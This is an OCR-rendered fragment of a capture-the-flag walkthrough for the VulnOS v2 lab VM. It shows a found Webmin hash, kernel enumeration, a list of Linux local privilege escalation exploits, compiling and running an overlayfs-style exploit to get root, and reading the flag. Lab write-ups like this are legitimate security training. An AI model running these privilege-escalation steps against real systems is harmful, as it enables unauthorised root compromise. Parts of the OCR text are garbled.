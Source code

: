 <img src="vulnOsV2/media/image21.png" style="width:3.875in;height:0.85833in" alt="Found webmin 1 98 (hash b78aae356709f8c31118ea613980954b) " />

<img src="vulnOsV2/media/image22.png" style="width:5.625in;height:0.40833in" alt="webmi nosv2 : /tmp$ uname -a Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux webminöVulnOSv2 : /tmp$ " />

<img src="vulnOsV2/media/image23.png" style="width:14.125in;height:1.41667in" alt="Linux 5.9 Linux Linux Linux Linux Linux Kernel Kernel Kernel Kernel Kernel Kernel 2.6.19 &lt; 3.11 &lt; 4. 3.14-rcl 3.4 &lt; 3.13. &#39;Net filter Local Privilege Escalation &#39;SO_SNDBUFFORCE&#39; / &#39;SO_RCVBUFFORCE&#39; Local privilege Escalation 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - &#39;overlayfs&#39; Local privilege Escalation 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - &#39;overlayfs&#39; Local Privilege Escalation (Access 3.15-rc4 (x64) - Raw Mode PTY Echo Race Condition privilege Escalation 2 (Ubuntu 13.04/13.10 - Local privilege Escalation (3) /10ca1/5ø135.c Iinux JinUk/local/41995.c /10ca1/37292.c Linux NONA/ local/ 37293. txt linux _ x86-64/10ca1/33516 _ x86-64/10ca1/31347 Linux " />

<img src="vulnOsV2/media/image24.png" style="width:6.90833in;height:2.85in" alt="webminöVulnOSv2: /tmp$ gcc pric .c webminöVulnOSv2 :/tmp$ ./priv spawning threads mount #1 mount #2 child threads done /etc/ld.so.preload created creating shared library # id whoami root -o priv " /><img src="vulnOsV2/media/image25.png" style="width:8.41667in;height:2.69167in" alt="# cd [root $$ Is flag. txt # cat flag. txt Hello and welcome. You successfully compromised the company Congratulations ! !! Hope you enjoyed it. What do you think of A. 1.? &quot; JABC&quot; and the server completely !! " />